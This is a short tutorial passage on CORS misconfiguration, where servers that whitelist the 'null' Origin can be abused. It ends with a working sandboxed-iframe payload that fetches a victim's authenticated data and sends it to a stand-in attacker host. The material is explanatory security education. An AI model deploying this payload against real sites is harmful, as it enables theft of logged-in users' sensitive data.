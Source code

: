 The `Origin` HTTP header also supports the `null` value. Browsers might send such value in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` Origin to support local development. For example:
```http
GET /sensitiveData
Host: vulnerable-website.com
Origin: null
...
```
And the server will send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```
In this situation, an attacker can use various tricks to generate a CORS request containing the `null` value in `Origin` header which will satisfy the whitelist. For example, an attacker can use a sandboxed `iframe` CORS request:
```html
<iframe style="display:none;" sandbox="allow-scripts" srcdoc="<script>
		var xhr = new XMLHttpRequest();
		var url = 'https://vulnerable-website.com'
		
		xhr.onreadystatechange = function () {
			if (xhr.readyState == XMLHttpRequest.DONE) {
				fetch('https://attacker-owned-website.com/log?key=' + xhr.responseText)
			}
		}
		xhr.open('GET', url + '/sensitiveData', true);
		xhr.withCredentials = true;
		xhr.send(null)
		</script>">
</iframe>
```